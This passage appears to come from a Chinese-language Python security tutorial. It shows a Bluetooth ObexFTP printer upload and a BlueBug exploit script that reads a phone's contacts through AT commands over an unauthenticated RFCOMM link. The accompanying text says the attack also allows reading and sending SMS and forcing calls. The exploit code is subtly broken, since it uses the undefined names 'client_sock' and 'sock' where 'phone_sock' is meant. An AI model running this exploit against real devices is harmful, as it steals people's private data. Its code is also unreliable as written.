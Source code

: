 ### 用 Python ObexFTP 控制打印机

用 ObexFTP 连接到打印机并上传一个图像文件

```python
import obexftp
try:
    bt_printer = obexftp.client(obexftp.BLUETOOTH)
    bt_printer.connect("00:16:38:DE:AD:11", 2)
    bt_printer.put_file("/tmp/ninja.jpg")
    print("[+] Printed Ninja Image.")
except:
    print("[-] Failed to print Ninja Image.")
```

### 用 Python 利用手机中的 BlueBug 漏洞

BlueBug 会与手机建立一个不需要经过认证的不安全连接，并通过这一连接窃取手机中的信息或直接向手机发送命令。这种攻击通过 RFCOMM 信道发送 AT 命令的方式，远程控制设备。这使得攻击者能读/发短信息、收集个人信息，或强制拨打电话号码。

```python
import bluetooth
target_phone = "AA:BB:CC:DD:EE:FF"
port = 17
phone_sock = bluetooth.BluetoothSocket(bluetooth.RFCOMM)
phone_sock.connect((target_phone, port))
for contact in range(1, 5):
    at_cmd = "AT+CPBR={}\n".format(contact)
    phone_sock.send(at_cmd)
    result = client_sock.recv(1024)
    print("[+] {}: {}".format(contact, result))
sock.close()
```

